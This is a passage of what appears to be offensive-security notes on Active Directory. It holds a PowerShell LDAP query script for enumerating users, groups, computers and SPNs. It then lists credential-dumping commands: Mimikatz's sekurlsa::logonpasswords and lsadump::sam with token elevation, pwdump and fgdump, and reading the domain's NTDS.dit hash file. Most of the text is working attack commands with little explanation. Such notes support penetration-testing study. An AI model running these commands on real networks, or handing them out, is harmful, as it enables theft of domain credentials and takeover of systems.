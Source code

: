 ```
# filter by all Users in domain
# $Searcher.filter="samAccountType=805306368"

# filter by all Groups in domain
# $Searcher.filter="objectcategory=group"

# filter by all Computers in domain
# $Searcher.filter="objectcategory=computer"

# filter by all Computers AND operating sys is Windows 10
# $Searcher.filter="(&(objectcategory=computer)(operatingsystem=*Windows 10*))"

# filter by SPN
$Searcher.filter="serviceprincipalname=*http*"

# invoke
$Result = $Searcher.FindAll()

# print each object and its properties
Foreach($obj in $Result) {
        Foreach($prop in $obj.Properties){$prop}
        Write-Host "------------------------"
}
```

## AD Authentication

### NTLM ###

NTLM authentication uses a challenge-response model, where a nonce/challenge encrypted using the user's NTLM hash is validated by the Domain Controller.

Dumping LM/NTLM hashes with Mimikatz
* [Full Mimikatz Guide](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)
* Requires local admin rights.
```
# escalate security token to SYSTEM integrity
mimikatz > privilege::debug
mimikatz > token::elevate

# dump creds
mimikatz > lsadump::sam              # dump contents of SAM db in current host
mimikatz > sekurlsa::logonpasswords  # dump creds of logged-on users
```

Other tools
```
cmd> pwdump.exe localhost
cmd> fgdump.exe localhost          # improved pwdump, shutdown firewalls 
cmd> type C:\Windows\NTDS\NTDS.dit # all domain hashes in NTDS.dit file on the Domain Controller
```
